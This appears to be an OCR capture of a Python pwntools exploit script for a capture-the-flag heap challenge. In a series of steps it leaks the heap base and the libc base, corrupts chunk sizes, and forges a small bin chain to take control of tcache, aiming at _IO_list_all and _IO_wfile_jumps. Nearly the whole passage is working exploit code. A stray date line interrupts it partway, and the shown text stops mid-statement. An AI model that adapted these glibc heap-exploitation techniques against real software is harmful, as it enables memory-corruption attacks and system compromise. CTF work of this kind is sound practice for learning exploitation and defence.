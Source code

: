 ```python
        return sh.recvuntil(b'1:', True)

    def malloc0x10():
        sh.sendlineafter(b'3:', b'4')

    def eout():
        sh.sendlineafter(b'3:', b'5')

    def malloc0x1000():
        sh.sendlineafter(b'3:', b'6')
    
    PROTECT_PTR = lambda pos, ptr: (pos >> 12) ^ ptr
        
    # Step 1, leak heapBase
    malloc(False, b'\n')
    free()
    malloc(True, b'\n')
    free()
    malloc(False, b'FLAG'.rjust(0x20))
    val = show()
    idx = val.index(b'FLAG') + 4
    heapBase = u64(val[idx:idx + 5] + b'\0\0\0') << 12
    success(GOLD_TEXT(f'Leak heapBase: {hex(heapBase)}'))

    # Step 2, leak libcBase
    free()
    malloc(False, b'0'*0x10 + p64(0) + p64(0x61)) # restore heap layout
    free()
    malloc(True, b'0'*0x50 + p64(0) + p64(0xcf1))
    malloc0x1000() # put top_chunk in unsorted bin
    free()
    malloc(True, b'FLAG'.rjust(0x60))
    val = show()
    idx = val.index(b'FLAG') + 4
    
    mainArena = u64(val[idx:idx + 6] + b'\0\0') - 0x60 # sub unsorted bin offset
    libcBase = mainArena - arena
    success(GOLD_TEXT(f'Leak libcBase: {hex(libcBase)}'))

    ioListAll = libcBase + libc.symbols['_IO_list_all']
    wjumps = libcBase + libc.symbols['_IO_wfile_jumps']

    # Step 3, shrink old top_chunk and put it in small bin
    malloc0x10() # clear the remaining tcache chunk
    free()
    malloc(True, b'0'*0x50 +                                     # the size of "small bin" we can control is 0x21
           p64(0) + p64(0x21) + p64(libcBase + arena + 0x60)*2 + # shrink chunk size from 0xcf1 to 0x21
           p64(0x20) + p64(0x10) + p64(0) + p64(0x11))           # 2 lookout chunks to make forced chunk legal
    malloc0x1000() # trigger malloc_consolidate()
updated: 2024/7/25 12:34:56

    # Step 4, force a small bin chain to control tcache
    heap = heapBase + 0x310
    free()
    malloc(True, b'0'*0x50 + 
           p64(0) + p64(0x21) + p64(heap) + p64(heap + 0x20) +
           p64(0) + p64(0x21) + p64(heap) + p64(heap + 0x40) + 
           p64(0) + p64(0x21) + p64(heap + 0x20) + p64(libcBase + arena + 112) + # main_arena + 112 is the "bin" to end 
```